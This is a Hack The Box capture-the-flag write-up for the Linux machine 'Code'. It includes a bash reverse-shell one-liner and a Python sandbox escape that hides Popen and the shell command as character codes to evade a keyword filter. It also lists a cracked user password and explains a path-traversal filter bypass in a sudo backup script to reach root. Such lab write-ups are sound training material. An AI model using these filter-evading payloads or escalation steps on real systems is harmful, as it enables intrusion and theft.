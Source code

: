 # Code HTB Easy Linux Machine
![code](./images/code.png)


Started: 5/8/25

Pwned: 5/8/25

### Nmap Output
![nmap](./images/nmap.png)  

popen was blocked  
![keywordblock](./images/keywordblocked.png)  

RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'  
```
x = ().__class__.__bases__[0].__subclasses__()
e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]
cmd = ''.join([chr(i) for i in [
    98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,
    47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,
    47,52,52,52,52,32,48,62,38,49
]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1' ASCII decimal value
e(['/bin/bash', '-c', cmd], shell=False) 
```

### RevShell/Foothold

Command: nc -lvnp 4444 

![revshell](./images/revshell.png)  

![userflag](./images/userflag.png)  

Found database.db file on the machine
![database](./images/database.png)  

Exported the hash and input it into CrackStation  
![crackstation](./images/crackstation.png)  

development:development  
martin:nafeelswordsmaster  

sudo -l  
![sudo](./images/sudo.png)  

backy.sh  
![backy](./images/backy.png)  

### Getting Root  

![task](./images/task.png)  

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully backup the root directory files.  

![exploit](./images/exploit.png)  

![loot](./images/loot.png)  

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.
